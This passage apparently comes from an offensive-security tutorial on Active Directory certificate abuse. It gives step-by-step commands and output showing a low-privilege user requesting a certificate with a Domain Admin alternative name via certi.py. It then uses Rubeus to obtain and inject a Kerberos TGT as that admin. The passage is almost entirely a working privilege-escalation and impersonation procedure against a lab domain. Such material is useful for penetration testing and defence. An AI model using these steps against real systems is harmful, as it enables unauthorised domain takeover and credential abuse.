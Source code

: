 ```plain
export KRB5CCNAME=johndo-lowpriv.ccache
```

### Requesting certificate with alternative name

Parameters:

- `offsec-DC01PKI-CA` - is found in the template `Enroll Services` field
- `-k` - to use kerberos authentication
- `-n` - 'no-pass' for use with `-k`
- `--alt-name` - the user you want to impersonate, this will likely be a 'Domain Admin' or equal
- `--template` - the vulnerable template name

To find the exact Certificate Authority (CA) use `certutil –config – -ping` in CMD (<https://www.cloudservus.com/blog/how-to-find-a-certificate-authority-in-your-active-directory-environment>).

```plain
$ python3 certi.py req 'offsec.nl/johndo-lowpriv@DC01PKI.offsec.nl' offsec-DC01PKI-CA -k -n --alt-name johnDomainAdmin --template UsersOffsecAD
[*] Service: offsec-DC01PKI-CA
[*] Template: UsersOffsecAD
[*] Username: johndo-lowpriv
[*] Alternative Name: johnDomainAdmin

[*] Response: 0x3 Issued

[*] Cert subject: CN=johndo-lowpriv
[*] Cert issuer: CN=offsec-DC01PKI-CA,DC=offsec,DC=local
[*] Cert Serial: 1300000820BF3CEC69D8FEB673000200000820
[*] Cert Extended Key Usage: Client Authentication
[+] Cert Altname: johnDomainAdmin@offsec.nl

[*] Saving certificate in johnDomainAdmin@offsec.nl.pfx (password: admin)
```

### Requesting TGT for alternative user

{{%resources fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

Move the `.pfx` to a Windows machine and start PowerShell for `Rubeus.exe`.

```plain
Z:\Rubeus.exe asktgt /domain:offsec.nl /dc:DC01PKI.offsec.nl /user:johnDomainAdmin /certificate:Z:\johnDomainAdmin@offsec.nl.pfx /password:admin /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=johndo-lowpriv
[*] Building AS-REQ (w/ PKINIT preauth) for: 'offsec.nl\johnDomainAdmin'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGPDCCBjig[REDACTED]FuZC5sb2NhbA==

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/offsec.nl
```